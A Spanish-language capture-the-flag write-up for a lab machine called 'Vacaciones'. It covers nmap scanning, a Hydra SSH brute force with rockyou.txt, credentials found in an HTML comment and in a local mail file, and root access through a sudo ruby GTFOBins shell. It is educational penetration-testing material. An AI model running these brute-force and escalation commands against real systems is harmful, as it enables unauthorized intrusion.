

# 🧾 Writeup – Máquina: Vacaciones

> 🔒 *Este writeup documenta el proceso educativo de explotación de la máquina “Vacaciones”, orientado únicamente al aprendizaje en ciberseguridad y hacking ético.*

---

## 1. Información General

- **Nombre:** Vacaciones  
- **Dificultad:** Muy Fácil 
- **Dirección IP:** `172.17.0.2`  
- **Objetivo:** Enumerar los servicios expuestos, obtener acceso inicial y escalar privilegios hasta comprometer completamente la máquina.

La máquina Vacaciones se centra en la enumeración web y de usuarios, seguida de reutilización de credenciales y una mala configuración de sudo que permite escalar privilegios hasta root mediante GTFOBins.

---

## 2. Reconocimiento inicial – Escaneo de puertos

En esta primera etapa se realizó un escaneo completo de puertos TCP con el objetivo de identificar qué servicios se encuentran expuestos en la máquina objetivo.

### 2.1 Escaneo de puertos TCP

Se ejecutó el siguiente comando:

```bash
sudo nmap -p- -sS -T3 -n -Pn 172.17.0.2
```

Salida obtenida:

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- -sS -T3 -n -Pn 172.17.0.2                        
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-20 14:45 EST
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.22 seconds
```

### 🔎 Explicación detallada del comando

> - `sudo` Se ejecuta con privilegios elevados para permitir el uso de técnicas de escaneo más avanzadas, como SYN Scan (`-sS`), que requieren acceso a bajo nivel a la red.
> - `nmap` Herramienta de escaneo de red utilizada para descubrir hosts, puertos abiertos y servicios.
> - `-p-` Indica a Nmap que escanee todos los puertos TCP, desde el 1 al 65535. Esto evita depender solo de los puertos más comunes y asegura una enumeración completa.
> - `-sS` Realiza un escaneo semi-abierto: Envía un paquete SYN, Si recibe SYN/ACK → el puerto está abierto, No completa el handshake TCP.
> - `-T3` Define el timing template en modo normal: Balance entre velocidad y estabilidad, Reduce el riesgo de falsos positivos o pérdida de paquetes.
> - `-n` Desactiva la resolución DNS, Evita consultas innecesarias, Hace el escaneo más rápido y limpio.
> - `-Pn` Omite el descubrimiento de hosts, Asume que el host está activo, Útil en entornos donde ICMP está bloqueado.
> - `172.17.0.2` Dirección IP de la máquina objetivo.

### Resultados del escaneo

| Puerto | Servicio | Descripción                                                                   |
| ------ | -------- | ----------------------------------------------------------------------------- |
| 22/tcp | SSH      | Posible acceso remoto, potencial vector de fuerza bruta o uso de credenciales |
| 80/tcp | HTTP     | Servicio web, posible vector de enumeración y explotación                     |

Con estos resultados, el siguiente paso lógico es realizar un escaneo de servicios y versiones únicamente sobre los puertos abiertos para obtener más detalles técnicos.

---

### 2.2 Escaneo de servicios y versiones

Se ejecutó el siguiente comando:

```bash
sudo nmap -sC -sV -p 22,80 172.17.0.2
```

Salida:

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p 22,80 172.17.0.2                          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-20 14:47 EST
Nmap scan report for 172.17.0.2
Host is up (0.000088s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.15 seconds
```

### 🔎 Explicación detallada del comando

> - `sudo` Permite ejecutar scripts NSE y detección de versiones con privilegios elevados.
> - `-sC` Ejecuta los scripts por defecto de Nmap (NSE), los cuales: Obtienen banners, Detectan configuraciones inseguras, Enumeran información básica del servicio
> - `-sV` (Service Version Detection) Intenta identificar: El software exacto, La versión, El sistema operativo asociado
> - `-p 22,80` Limita el escaneo solo a los puertos previamente identificados como abiertos, haciendo el proceso más rápido y preciso.
> - `172.17.0.2` Dirección IP de la máquina objetivo.

### Resultados obtenidos

El escaneo de servicios confirma un entorno Linux Ubuntu con dos servicios claramente explotables:

- **SSH (22):** posible vector de acceso remoto mediante credenciales.
- **HTTP (80):** punto de entrada para enumeración web y descubrimiento de información sensible.

---

## 3. Enumeración del servicio web (HTTP – Puerto 80)

Una vez identificada la presencia de un servicio HTTP en el puerto 80, se procedió a realizar una exploración manual de la aplicación web con el objetivo de identificar contenido visible, pistas ocultas o información relevante para las siguientes etapas.

Se accedió directamente desde el navegador a la URL: http://172.17.0.2/


Dado que no se observó contenido visible, se procedió a inspeccionar el código fuente HTML de la página.

Durante esta revisión se identificó el siguiente comentario HTML:

```bash
<!-- De: Juan Para: Camilo , te he dejado un correo es importante... -->
```

### 🧠 Análisis del hallazgo

Este comentario no es visible para el usuario final, pero contiene **información contextual relevante:**

- Se identifican dos posibles nombres propios:
    - `Juan`
    - `Camilo`
- Se hace referencia a un correo importante, lo que sugiere:
    - Existencia de usuarios reales en el sistema
    - Posible relación con credenciales, mensajes o archivos accesibles posteriormente

Aunque la página web no presenta contenido visible, el análisis del código fuente permitió descubrir una pista relevante que orienta los siguientes pasos de la explotación.

---

## 4. Ataque de fuerza bruta al servicio SSH

A partir de la enumeración web previa, se identificó el nombre “camilo” dentro de un comentario HTML, lo que sugiere la posible existencia de un usuario válido en el sistema.
Con esta información, se procedió a realizar un ataque de fuerza bruta contra el servicio SSH expuesto en el puerto 22.

Se ejecutó el siguiente comando:

```bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -I -f
```

Respuesta:

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -I -f
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-20 15:03:35
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
[STATUS] attack finished for 172.17.0.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-20 15:03:38
```

> - `hydra` Herramienta especializada en ataques de fuerza bruta y diccionario contra servicios de autenticación en red.
> - `-l camilo` Define un usuario fijo para el ataque.
> - `-P /usr/share/wordlists/rockyou.txt` Utiliza el diccionario rockyou.txt, una de las listas de contraseñas más utilizadas en pentesting debido a que contiene millones de contraseñas reales filtradas.
> - `ssh://172.17.0.2` Indica que el ataque se realizará contra el servicio SSH en la máquina objetivo.
> - `-I` Ignora sesiones o restauraciones previas de Hydra, asegurando un ataque limpio desde cero.
> - `-f` Finaliza el ataque automáticamente al encontrar la primera combinación válida de usuario y contraseña, optimizando tiempo y recursos.

### Resultado del ataque

Se logró identificar una credencial válida:

- Usuario: `camilo`
- Contraseña: `password1`

### 🧠 Análisis

Este resultado confirma que:

- El usuario camilo existe en el sistema.
- El servicio SSH permite autenticación por contraseña.
- Se utiliza una contraseña débil y común, incluida en diccionarios públicos.

---

## 5. Acceso inicial al sistema mediante SSH

Una vez obtenidas credenciales válidas para el usuario camilo, se procedió a acceder al sistema utilizando el servicio SSH expuesto en el puerto 22.

Se ejecutó el siguiente comando:

```bash
ssh camilo@172.17.0.2
```

Salida:

```bash
┌──(kali㉿kali)-[~]
└─$ ssh camilo@172.17.0.2                
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
camilo@172.17.0.2's password: 
$ whoami
camilo
$ /bin/bash
camilo@587a6fd3efb9:~$
```

### Confirmación

El acceso inicial fue exitoso y se obtuvo una shell interactiva como el usuario camilo, confirmando el compromiso parcial del sistema.

---

## 6. Enumeración post-explotación

Una vez obtenido acceso como el usuario camilo, se inició la fase de enumeración local, con el objetivo de identificar posibles vías de escalada de privilegios.

### 6.1 Revisión de permisos sudo

El primer paso consistió en verificar si el usuario contaba con permisos para ejecutar comandos como root mediante `sudo`.

```bash
camilo@587a6fd3efb9:~$ sudo -l
[sudo] password for camilo: 
Sorry, user camilo may not run sudo on 587a6fd3efb9.
```

### 🧠 Análisis

El resultado indica que:

- El usuario camilo no posee permisos sudo
- No existe ninguna regla `NOPASSWD`
- No hay comandos permitidos para ejecutar como root

---

### 6.2 Búsqueda de información sensible en el sistema

Dado que previamente se encontró una pista relacionada con un correo importante, se decidió buscar archivos de texto que pudieran contener información relevante.

Se ejecutó lo siguiente:

```bash
camilo@587a6fd3efb9:~$ find / -name "*.txt" 2>/dev/null
/var/mail/camilo/correo.txt
...
```

### 🧠 Análisis

Este hallazgo es coherente con la pista encontrada anteriormente en el código fuente HTML, donde se mencionaba un correo importante.

---

### 6.3 Lectura de correo local y obtención de credenciales

Tras identificar el archivo de correo local del usuario camilo, se procedió a analizar su contenido en busca de información sensible.

```bash
camilo@587a6fd3efb9:~$ cat /var/mail/camilo/correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

### 🧠 Análisis del hallazgo

Del contenido del correo se puede inferir lo siguiente:

- Se trata de un correo interno del sistema, almacenado localmente.
- Se menciona explícitamente una contraseña.
- El mensaje hace referencia a:
    - “el jefe”
    - un “trabajo pendiente”
    - una contraseña dejada como respaldo
- Credencial encontrada: Contraseña: `2k84dicb`

Aunque el correo no especifica explícitamente a qué usuario pertenece esta contraseña, el contexto sugiere que puede corresponder a otro usuario del sistema

---

## 7. Escalada lateral de privilegios (usuario `camilo` → usuario `juan`)

A partir de la contraseña obtenida en el correo local, se planteó la hipótesis de que esta credencial correspondía a otro usuario del sistema, posiblemente mencionado previamente en la enumeración web.

Con esta suposición, se intentó un cambio de usuario local utilizando el comando `su`.

```bash
camilo@587a6fd3efb9:~$ su - juan
Password: 
$ whoami
juan
$ /bin/bash
juan@587a6fd3efb9:~$
```

### Confirmación

Se logró ingresar correctamente como el usuario `juan`, confirmando que:

- La contraseña obtenida en el correo era válida
- Existía reutilización insegura de credenciales
- Se produjo una escalada lateral (horizontal) dentro del sistema

---

## 8. Escalada de privilegios a root mediante `sudo`

Una vez realizada la escalada lateral al usuario juan, se procedió a enumerar nuevamente los permisos sudo con el objetivo de identificar una posible escalada vertical de privilegios.

```bash
juan@587a6fd3efb9:~$ sudo -l
Matching Defaults entries for juan on 587a6fd3efb9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 587a6fd3efb9:
    (ALL) NOPASSWD: /usr/bin/ruby
```

### 🧠 Análisis del resultado

El resultado indica que:

- El usuario juan puede ejecutar el binario `/usr/bin/ruby`
- Puede hacerlo como cualquier usuario, incluyendo root
- No se requiere contraseña (`NOPASSWD`)`

---

### Escalada a root usando Ruby (GTFOBins)

https://gtfobins.github.io/

Se utilizó el siguiente comando para obtener una shell como root:



Salida:

```bash
juan@587a6fd3efb9:~$ sudo ruby -e 'exec "/bin/sh"'
# whoami
root
# /bin/bash
root@587a6fd3efb9:~#
```

### Confirmación

Se logró una escalada completa de privilegios, obteniendo acceso como root, lo que implica el compromiso total del sistema.